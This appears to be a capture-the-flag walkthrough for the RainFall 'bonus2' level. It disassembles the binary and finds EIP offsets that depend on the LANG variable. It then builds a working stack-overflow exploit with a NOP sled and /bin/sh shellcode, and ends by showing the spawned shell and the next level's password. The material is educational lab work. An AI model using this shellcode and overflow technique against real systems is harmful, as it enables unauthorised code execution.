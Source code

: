 # Bonus2

## Overview
This walkthrough explains how to exploit the `bonus2` binary. It includes detailed explanations for each step, covering the `argv` usage, the `LANG` environment variable, offsets, NOP sled, and shellcode.

## 1. Understanding the Binary
`bonus2` expects two command-line arguments and prints them separated by a space:

```bash
$ ./bonus2 coucou toi
Hello coucou
```

### Observations:

- Info functions show us a `main()` and a `greetuser()`

Analysing the main by disassembling : 

```bash
0x08048548 <+31>:	lea    0x50(%esp),%ebx
0x0804854c <+35>:	mov    $0x0,%eax
0x08048551 <+40>:	mov    $0x13,%edx
0x08048556 <+45>:	mov    %ebx,%edi
0x08048558 <+47>:	mov    %edx,%ecx
0x0804855a <+49>:	rep stos %eax,%es:(%edi)
```
* `lea 0x50(%esp),%ebx` → computes the address `esp+0x50` (this is the **start of the local buffer**).
* Then a `rep stos` → sets **0x13 (= 19 dwords = 76 bytes)** to zero in this buffer. So we have a buffer of approximately **76 bytes reserved for** `argv[1]` + `argv[2]`

```bash
0x0804855c <+51>:	mov    0xc(%ebp),%eax   ; argv
0x0804855f <+54>:	add    $0x4,%eax       ; argv+1
0x08048562 <+57>:	mov    (%eax),%eax     ; argv[1]
0x08048564 <+59>:	movl   $0x28,0x8(%esp) ; 40
0x0804856c <+67>:	mov    %eax,0x4(%esp)  ; src = argv[1]
0x08048570 <+71>:	lea    0x50(%esp),%eax ; dst = buffer
0x08048574 <+75>:	mov    %eax,(%esp)
0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>
```
* `argv[1]` is retrieved.
* `strncpy(buffer, argv[1], 40)` → we copy **40 bytes max from** `argv[1]` into the buffer at `esp+0x50`.
 So `argv[1]` starts the buffer content.

```bash
0x0804857c <+83>:	mov    0xc(%ebp),%eax   ; argv
0x0804857f <+86>:	add    $0x8,%eax       ; argv+2
0x08048582 <+89>:	mov    (%eax),%eax     ; argv[2]
0x08048584 <+91>:	movl   $0x20,0x8(%esp) ; 32
0x0804858c <+99>:	mov    %eax,0x4(%esp)  ; src = argv[2]
0x08048590 <+103>:	lea    0x50(%esp),%eax
0x08048594 <+107>:	add    $0x28,%eax     ; buffer+40
0x08048597 <+110>:	mov    %eax,(%esp)
0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>
```
* This time `argv[2]` is retrieved.
* `strncpy(buffer+40, argv[2], 32)` → we copy **32 bytes max from** `argv[2]` right after `argv[1]` in the buffer.

- The binary checks the `LANG` environment variable.

```bash
0x080485a6 <+125>:	call   0x8048380 <getenv@plt>   ;getenv("LANG")
0x080485ab <+130>:	mov    %eax,0x9c(%esp)
0x080485b2 <+137>:	cmpl   $0x0,0x9c(%esp)   
0x080485ba <+145>:	je     0x8048618 <main+239> 
```
* `getenv("LANG")` → retrieves the value of `LANG`.
* If it doesn't exist → we take the default path (`Hello`).

```bash
; Test si LANG commence par "fi"
0x080485bc <+147>:	movl   $0x2,0x8(%esp)
0x080485c4 <+155>:	movl   $0x804873d,0x4(%esp)   ; "fi"
0x080485cc <+163>:	mov    0x9c(%esp),%eax        ; pointeur sur LANG
0x080485d3 <+170>:	mov    %eax,(%esp)
0x080485d6 <+173>:	call   0x8048360 <memcmp@plt>
...
0x080485df <+182>:	movl   $0x1,0x8049988         ; si == "fi", flag = 1

; Test si LANG commence par "nl"
0x080485eb <+194>:	movl   $0x2,0x8(%esp)
0x080485f3 <+202>:	movl   $0x8048740,0x4(%esp)   ; "nl"
0x080485fb <+210>:	mov    0x9c(%esp),%eax
0x08048602 <+217>:	mov    %eax,(%esp)
0x08048605 <+220>:	call   0x8048360 <memcmp@plt>
...
0x0804860e <+229>:	movl   $0x2,0x8049988         ; si == "nl", flag = 2
```

- It sets a global variable depending on `LANG`:
  - `LANG=fi` → 1
  - `LANG=nl` → 2
  - Other → 0
- A function `greetuser()` copies and concatenates messages into a buffer, allowing a buffer overflow if the input is long enough.

## 2. argv Usage
Analyzing `main` in GDB:
- `argv[1]` is copied to a buffer at most 40 bytes.
- `argv[2]` is copied right after `argv[1]` at most 32 bytes.
- This combined buffer can overflow and overwrite `EIP` depending on `LANG`.

## 3. LANG Environment Variable
`LANG` determines the prefix message:
- `fi` → "Hyvää päivää " (long)
- `nl` → "Goedemiddag! " (different length)
- Other → "Hello "

The length of the prefix affects the offset where `EIP` is overwritten.

### Setting LANG:
```bash
export LANG=fi
export LANG=nl
```

## 4. Finding Offset for EIP
1. Generate a padding pattern manually to fill the buffer.
2. Run in GDB with the pattern as `argv[2]`:

```bash
gdb bonus2
run $(python -c 'print "A"*40') $(python -c 'print "PATTERN"')
```

### Results:
- `LANG=fi` → EIP overwritten after 18 bytes of `argv[2]`
- `LANG=nl` → EIP overwritten after 23 bytes of `argv[2]`

## 5. Shellcode
We use a standard Linux/x86 shellcode to spawn `/bin/sh`:
```python
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

## 6. Determining the Jump Address (into NOP sled)
1. Break at `main+125` in GDB.
2. Run the program and examine the environment:
```gdb
b *main+125
Breakpoint 1 at 0x80485a6

run $(python -c 'print "A"*40') bla
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A"*40') bla

Breakpoint 1, 0x080485a6 in main ()

x/20s *((char**)environ)
0xbffffebc:	 "LANG=nl\220\220....

```
3. Locate the start of `LANG` in memory (e.g., `0xbffffebc`).
4. Add a small offset (e.g., `+50`) to land in the middle of the NOP sled → `0xbffffeee`.
In hexadecimal form its `\xee\xfe\xff\xbf`

## 7. Building the Exploit
1. Set LANG with NOP sled + shellcode:
```bash
export LANG=$(python -c 'print("nl" + "\x90"*100 + SHELLCODE)')
```
2. Construct `argv`:
- `argv[1]` → 40 bytes of padding (`A*40`)
- `argv[2]` → offset-dependent padding (`B*18` for fi, `B*23` for nl) + address inside NOP sled (`0xbffffeee`)

Example:
```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xee\xfe\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

